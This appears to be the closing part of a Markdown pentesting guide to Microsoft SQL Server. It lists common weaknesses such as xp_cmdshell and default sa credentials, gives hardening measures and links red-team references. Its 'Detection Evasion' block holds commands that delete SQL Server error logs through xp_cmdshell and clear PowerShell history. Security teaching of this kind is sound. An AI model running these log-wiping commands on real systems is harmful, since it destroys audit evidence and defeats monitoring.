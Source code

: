 ### Common Vulnerabilities
- Default credentials (sa account)
- Weak passwords
- Excessive privileges
- Enabled xp_cmdshell
- SQL injection vulnerabilities
- Unpatched instances

### Detection Evasion
```sql
-- Disable SQL Server logs
EXEC sp_cycle_errorlog;
EXEC xp_cmdshell 'del C:\Program Files\Microsoft SQL Server\MSSQL*\MSSQL\LOG\ERRORLOG*';

-- Clear command history
EXEC xp_cmdshell 'powershell Clear-History';
```

### Defensive Measures
- Disable unnecessary features (xp_cmdshell, OLE Automation)
- Use Windows Authentication
- Implement least privilege
- Regular security updates
- Monitor SQL Server logs
- Network segmentation

## References

- [MSSQL Red Team Cheat Sheet](https://github.com/dsasmblr/mssql-red-team-cheat-sheet)
- [HackTricks MSSQL](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

